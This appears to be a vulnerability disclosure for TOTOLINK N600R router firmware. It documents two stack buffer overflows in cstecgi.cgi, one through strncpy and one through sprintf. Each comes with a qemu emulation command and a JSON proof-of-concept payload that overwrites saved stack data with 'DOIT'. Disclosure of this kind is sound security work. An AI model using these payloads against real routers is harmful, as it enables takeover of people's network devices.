 # TOTOLINK_N600R_V4.3.0cu.7866_B20220506-stack overflow

## File information

[](https://github.com/Luanruy/qax#file-information)

TOTOLINK_N600R_V4.3.0cu.7866_B20220506.web Unzipped cstecgi.cgi Download address:  [https://totolink.tw/support_view/N600R](https://totolink.tw/support_view/N600R)

## stack overflow point 41ca08

At 41ca08 in function FUN_0041c824, the strncpy function is called, which poses a risk of buffer overflow.
 
### Simulate running in qemu
```bash
#!/bin/bash
sudo  chroot  ./  ./qemu-mips-static\
-E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
./web_cste/cgi-bin/cstecgi_41c8dc.cgi  <  ./poke/41ca08_poc.json
```
### json
```json
{
	"topicurl" : "UploadCustomModule/setWiFiWpsConfig",
	"wifiIdx" : "1",
	"wscMode" : "1",
	"wscPinMode" : "1",
	"pin" : "11111111111111111111llllllllllllllllllllabcdDOIT"
}
```

### Operation Results
When checking the current function return, the return value will be taken from $sp+228. After running strncpy, it is found that the value at $sp+288 has been overwritten with "DOIT".
![enter image description here](https://i.miji.bid/2025/05/07/42f9bdbfef870ad5d89a99d89a4fd4f4.png)



## stack overflow point 41766c
The function sprintf is called at 0x41766c in the function FUN_00416bd4, which poses a buffer overflow risk.

### Simulate running in qemu
```bash
#!/bin/bash

sudo  chroot  ./  ./qemu-mips-static\
-E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
./web_cste/cgi-bin/cstecgi_41c8dc.cgi  <  ./poke/41766c_poc.json
```

### json
```json
{

	"topicurl" : "UploadCustomModule/setUpgradeFW",
	"flags" : "true",
	"FileName" : "llllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllDOIT",
	"ContentLength" : "990",
	"headOffset" : "36"
}
```
### Operation Results
After running sprintf, you can see that the place on the stack where the return address is saved is overwritten with the desired content.

![enter image description here](https://i.miji.bid/2025/05/08/e45146ba43bfc69486430360acb64217.png)



